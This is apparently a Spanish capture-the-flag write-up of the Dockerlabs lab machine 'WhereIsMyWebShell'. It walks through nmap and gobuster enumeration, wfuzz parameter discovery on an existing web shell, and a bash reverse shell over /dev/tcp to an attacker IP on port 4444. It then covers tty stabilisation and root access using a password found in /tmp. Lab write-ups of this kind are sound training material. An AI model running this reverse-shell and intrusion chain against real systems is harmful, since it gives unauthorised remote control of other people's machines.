










# **WhereIsMyWebShell**

### **Plataforma:** Dockerlabs

### **Dificultad:** Fácil

### **SO:** Linux

Comenzamos desplegando la máquina

1. unzip whereismywebshell

2. sudo bash auto_deploy.sh whereismywebshell.tar 

3. Se despliega la máquina y nos facilita la IP con la que trabajaremos, en este caso la IP 172.17.0.2

Comienzo con el escaneo de puertos mediante nmap

nmap -p- -Pn -sVC --min-rate 5000 127.17.0.2

Detecta abierto el puerto 80(servicio http, apache)

Se puede realizar ping para comprobar conectividad

ping -c1 127.0.2

Se puede apreciar por la TTL=64 que es un sistema Linux 

Se investiga el puerto 80

http://172.17.0.2

Al final de la página se detecta un apartado con el siguiente mensaje:
"Contáctanos" Guardo un secretito en  /tmp

Dando a entender que hay un directorio  /tmp, que lo tendremos en cuenta en cuanto pueda acceder a la máquina

Utilizo gobuster para enumeracion y descubrimiento de contenido web

gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html,doc,pdf -t 100

Nos devuelve varios archivos, dos de ellos interesantes:
1. warning.html
2. shell.php

Inspecciono warning.html

Me devuelve esta información

Pruebo wfuzz sobre shell.php

wfuzz -c --hc=404,500 --hh=0  -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "http://172.17.0.2/shell.php?FUZZ=id" -t 200

Bien!!

Ahora tenemos ejecución remota de comandos

Probamos

Voy a establecer una reverse shell para luego escalar privilegios

Me pongo a la escucha en el puerto 4444

nc -lvnp 4444

Y en la URL vulnerable

http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.50.53/4444 0>%261"

Tengo acceso a la maquina

**Realizo tratamiento de la tty**

script /dev/null -c bash

Presionamos CTRL + z

Devuelta en nuestro terminal, escribimos:

stty raw -echo; fg

reset xterm

Devuelta en la máquina de la víctima

export TERM=xterm

export SHELL=bash

**Escalada de privilegios**

Con una terminal más estable, accedemos a la carpeta /tmp que conociamos al principio

Lo abrimos, conseguimos contraseña

Y ya somos root